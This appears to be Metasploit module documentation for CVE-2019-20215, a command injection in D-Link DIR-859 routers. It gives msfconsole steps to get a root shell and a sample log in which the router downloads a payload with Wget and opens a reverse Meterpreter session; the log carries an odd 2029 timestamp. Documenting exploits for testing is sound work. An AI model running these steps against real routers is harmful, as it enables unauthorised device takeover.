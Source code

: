 ## Vulnerable Application

### Introduction

This module exploits CVE-2019–20215, an unauthenticated remote injection of operating system commands.
The vulnerability was found in the ssdpcgi() function, and the payload can be injected through either the UUID
or URN headers of a M-SEARCH UPnP request.

Get a [D-Link router/vulnerable firmware](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147),
or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/http/dlink_dir859_exec_ssdpcgi`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `set TARGET <URN/UUID>`
7. Do: `run`
8. You should get a session as `root`.

## Options

### VECTOR

This option denotes which header will be used in the request (UUID or URN)
that triggers the vulnerability.

## Scenarios

### D-link DIR-859 Firmware 1.05

```
msf exploit(linux/http/dlink_dir859_exec_ssdpcgi) > run 
[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://0.0.0.0:8080/38YWEX2
[*] Local IP: http://192.168.70.28:8080/38YWEX2
[*] Target Payload URN
[*] Client 192.168.0.1 (Wget) requested /38YWEX2
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.1:41057) at 2029-12-31 14:15:22 -0300
[*] Server stopped.
meterpreter > 
```
